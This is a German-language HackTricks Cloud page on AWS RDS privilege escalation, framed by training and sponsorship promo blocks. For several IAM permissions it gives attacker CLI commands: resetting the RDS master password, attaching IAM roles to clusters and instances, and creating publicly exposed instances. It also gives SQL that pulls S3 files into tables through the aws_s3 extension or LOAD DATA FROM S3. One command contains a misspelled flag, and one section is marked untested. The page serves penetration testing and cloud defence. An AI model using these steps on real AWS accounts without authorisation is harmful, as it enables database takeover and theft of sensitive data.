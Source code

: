 # AWS - RDS Privesc

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## RDS - Relational Database Service

Für weitere Informationen über RDS siehe:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Mit dieser Berechtigung kann ein Angreifer **das Passwort des Master-Benutzers ändern** und sich in die Datenbank einloggen:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Sie müssen in der Lage sein, **Kontakt zur Datenbank** aufzunehmen (sie sind normalerweise nur von internen Netzwerken aus zugänglich).
{% endhint %}

**Potenzielle Auswirkungen:** Sensible Informationen in den Datenbanken finden.

### rds-db:connect

Laut den [**Docs**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) könnte ein Benutzer mit dieser Berechtigung eine Verbindung zur DB-Instanz herstellen.

### Missbrauch von RDS-Rollen-IAM-Berechtigungen

#### Postgresql (Aurora)

{% hint style="success" %}
Wenn Sie **`SELECT datname FROM pg_database;`** ausführen und eine Datenbank namens **`rdsadmin`** finden, wissen Sie, dass Sie sich in einer **AWS Postgresql-Datenbank** befinden.
{% endhint %}

Zuerst können Sie überprüfen, ob diese Datenbank verwendet wurde, um auf einen anderen AWS-Dienst zuzugreifen. Sie könnten dies überprüfen, indem Sie sich die installierten Erweiterungen ansehen:
```sql
SELECT * FROM pg_extension;
```
Wenn Sie etwas wie **`aws_s3`** finden, können Sie davon ausgehen, dass diese Datenbank **irgendeine Art von Zugriff auf S3** hat (es gibt andere Erweiterungen wie **`aws_ml`** und **`aws_lambda`**).

Wenn Sie außerdem die Berechtigung haben, **`aws rds describe-db-clusters`** auszuführen, können Sie dort sehen, ob der **Cluster eine IAM-Rolle zugewiesen hat** im Feld **`AssociatedRoles`**. Falls vorhanden, können Sie davon ausgehen, dass die Datenbank **vorbereitet wurde, um auf andere AWS-Dienste zuzugreifen**. Basierend auf dem **Namen der Rolle** (oder wenn Sie die **Berechtigungen** der Rolle erhalten können) könnten Sie **erraten**, welchen zusätzlichen Zugriff die Datenbank hat.

Um nun **eine Datei in einem Bucket zu lesen**, müssen Sie den vollständigen Pfad kennen. Sie können es mit folgendem Befehl lesen:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Wenn Sie **rohe AWS-Anmeldeinformationen** hätten, könnten Sie diese auch verwenden, um auf S3-Daten zuzugreifen mit:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **muss keine Parametergruppenvariable ändern**, um auf S3 zugreifen zu können.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Wenn Sie in einer mysql die Abfrage **`SELECT User, Host FROM mysql.user;`** ausführen und es einen Benutzer namens **`rdsadmin`** gibt, können Sie davon ausgehen, dass Sie sich in einer **AWS RDS mysql db** befinden.
{% endhint %}

Führen Sie in der mysql **`show variables;`** aus, und wenn die Variablen wie **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** Werte haben, können Sie davon ausgehen, dass die Datenbank vorbereitet ist, um auf S3-Daten zuzugreifen.

Wenn Sie außerdem die Berechtigung haben, **`aws rds describe-db-clusters`** auszuführen, können Sie überprüfen, ob der Cluster eine **assoziierte Rolle** hat, was normalerweise den Zugriff auf AWS-Dienste bedeutet.

Um nun **eine Datei innerhalb eines Buckets zu lesen**, müssen Sie den vollständigen Pfad kennen. Sie können sie mit folgendem Befehl lesen:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Ein Angreifer mit den Berechtigungen `rds:AddRoleToDBCluster` und `iam:PassRole` kann **eine bestimmte Rolle zu einer bestehenden RDS-Instanz hinzufügen**. Dies könnte dem Angreifer ermöglichen, **auf sensible Daten zuzugreifen** oder die Daten innerhalb der Instanz zu ändern.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Potenzielle Auswirkungen**: Zugriff auf sensible Daten oder unbefugte Änderungen an den Daten in der RDS-Instanz.\
Beachten Sie, dass einige DBs zusätzliche Konfigurationen erfordern, wie Mysql, das die Angabe der Rollen-ARN in den Parametergruppen benötigt.

### `rds:CreateDBInstance`

Nur mit dieser Berechtigung könnte ein Angreifer eine **neue Instanz innerhalb eines bereits vorhandenen Clusters** erstellen, der eine **IAM-Rolle** zugewiesen ist. Er wird das Master-Benutzerpasswort nicht ändern können, aber er könnte in der Lage sein, die neue Datenbankinstanz ins Internet zu exponieren:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

Ein Angreifer mit den Berechtigungen `rds:CreateDBInstance` und `iam:PassRole` kann **eine neue RDS-Instanz mit einer angegebenen Rolle erstellen**. Der Angreifer kann dann potenziell **auf sensible Daten zugreifen** oder die Daten innerhalb der Instanz ändern.

{% hint style="warning" %}
Einige Anforderungen an die Rolle/Instanzprofil, die angehängt werden sollen (von [**hier**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Das Profil muss in Ihrem Konto existieren.
* Das Profil muss eine IAM-Rolle haben, die Amazon EC2 die Berechtigung hat, zu übernehmen.
* Der Name des Instanzprofils und der zugehörige IAM-Rollenname müssen mit dem Präfix `AWSRDSCustom` beginnen.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Potenzielle Auswirkungen**: Zugriff auf sensible Daten oder unbefugte Änderungen an den Daten in der RDS-Instanz.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Ein Angreifer mit den Berechtigungen `rds:AddRoleToDBInstance` und `iam:PassRole` kann **eine bestimmte Rolle zu einer bestehenden RDS-Instanz hinzufügen**. Dies könnte dem Angreifer ermöglichen, **auf sensible Daten zuzugreifen** oder die Daten innerhalb der Instanz zu ändern.

{% hint style="warning" %}
Die DB-Instanz muss außerhalb eines Clusters sein, um dies zu ermöglichen.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Potenzielle Auswirkungen**: Zugriff auf sensible Daten oder unbefugte Änderungen an den Daten in der RDS-Instanz.

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
